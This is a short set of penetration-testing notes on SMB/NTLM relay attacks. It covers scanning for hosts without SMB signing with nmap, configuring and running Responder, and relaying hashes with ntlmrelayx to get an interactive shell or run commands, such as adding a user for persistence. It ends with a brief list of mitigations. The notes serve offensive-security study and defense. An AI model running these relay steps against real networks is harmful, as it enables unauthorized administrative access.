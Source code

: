 instead of cracking hashes, relay those hashes to another machine to potentially gain access

SMB signing must be disable or not enforced on target
relayed user creds must be admin on machine for any real value

1) ID Hosts without SMB signing:
		`$nmap --script=smb2-security-mode.nse -p445 <IP> -Pn
	1) Change responder.conf (/usr/share/responder)
		Disable 
			HTTP = Off
			SMB = Off
		`$python responder.py -I eth0 -rdwv`
		`$ntlmrelayx.py -tf targets.txt <--list of Host IPs> -smb2support`
		! Can also add -i flag for an interactive shell. Use `nc <IP, 127.0.0.1> <port>`
		! Can also use -c "command" to run a command on the remote host (add a user for persistence)


Mitigations and Remediations:
-Enable  singing on all devices
-Disable NTLM authentication on network
-Account tiering
-Local admin restriction